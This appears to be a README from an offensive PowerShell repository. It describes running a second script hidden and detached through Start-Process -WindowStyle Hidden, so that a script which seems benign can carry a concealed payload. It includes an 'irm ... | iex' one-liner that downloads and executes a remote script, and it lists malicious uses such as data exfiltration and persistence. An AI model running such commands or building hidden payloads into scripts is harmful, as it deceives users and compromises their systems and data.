 This method uses the -WindowStyle option on Start-Process to run a second script completely hidden and detatched from the first one. The first script can do what is advertised, while the second script does something malicious.

If you want to see an example in action, you can run the included script, **after** looking at it to see what it does

```PowerShell
irm https://raw.githubusercontent.com/starchyunderscore/offensive-ps/main/method-1/run.ps1 | iex
```

The included example runs a few Write-Output commands, then exits the powershell window. Ten seconds later, the calculator will pop up.

What this could do instead of just opening the calculator:
- Download an exe and run it
- Download an exe and replace another exe with it, so that the next time that program is run it runs the payload
- Copy all of a user's sensitive data to a folder, zip it, and send that zip to a server
- Edit the startup of powershell to download and run a script, so that the attacker can run an updated info-stealer every time powershell is launched
- Almost anything else you can think of

Score:
Versitility: 9/10 : can run almost anything
Difficulty to spot 2/10 : easy to spot if you just read the script before running it.
Overall: 11/20 : can do a lot, but only to people in the small intersection of needing to run something in powershell and not being tech savvy enough to take a cursory glance at the code
